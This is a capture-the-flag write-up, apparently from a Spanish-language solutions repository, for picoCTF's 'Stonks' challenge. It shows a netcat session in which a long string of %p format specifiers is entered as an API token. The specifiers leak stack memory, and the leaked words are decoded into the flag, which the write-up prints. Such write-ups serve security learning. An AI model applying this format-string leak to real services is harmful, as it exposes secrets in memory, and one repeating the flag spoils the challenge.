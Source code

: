 # Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`


# Pistas
Okay, maybe I'd believe you if you find my API key.

# Solucion
```
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/stonks]
└─$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x80f53300x804b0000x80489c30xf7eebd800xffffffff0x10x80f31600xf7ef91100xf7eebdc7(nil)0x80f41800x60x80f53100x80f53300x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xfff4007d0xf7f26af80xf7ef94400x80b3c1000x1(nil)0xf7d88ce90xf7efa0c00xf7eeb5c00xf7eeb0000xfff40a580xf7d7968d0xf7eeb5c00x8048eca0xfff40a64(nil)0xf7f0df090x804b0000xf7eeb0000xf7eebe200xfff40a980xf7f13d500xf7eec8900x80b3c1000xf7eeb0000x804b0000xfff40a980x8048c860x80f31600xfff40a840xfff40a980x8048be90xf7eeb3fc(nil)0xfff40b4c0xfff40b440x10x10x80f31600x80b3c1000xfff40ab0(nil)(nil)0xf7d2efa10xf7eeb0000xf7eeb000(nil)0xf7d2efa10x10xfff40b440xfff40b4c0xfff40ad40x1(nil)0xf7eeb0000xf7f0e70a0xf7f26000(nil)0xf7eeb000(nil)(nil)0xc9f855890x8433f399(nil)(nil)(nil)0x10x8048630(nil)0xf7f13d500xf7f0e9600x804b0000x10x8048630(nil)0x80486620x8048b850x10xfff40b440x8048cd00x8048d300xf7f0e9600xfff40b3c0xf7f269400x10xfff40e78(nil)0xfff40eb10xfff40ebe0xfff40ec70xfff40ef60xfff40f2e0xfff40f490xfff40f6b0xfff40f73(nil)0x200xf7efeb500x210xf7efe0000x100x1f8bfbff0x60x10000x110x640x30x80480340x40x200x50x90x70xf7eff0000x8(nil)0x90x80486300xb0x4110xc0x4110xd0x4120xe0x4120x17
Portfolio as of Sat May 13 04:19:53 UTC 2023


6 shares of RPNI
1502 shares of RDBT
Goodbye!

0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xfff4007d

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
```

# Bandera
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}

# Notas adicionales


# Referencias
https://www.youtube.com/watch?v=0NjQ7qUIuTs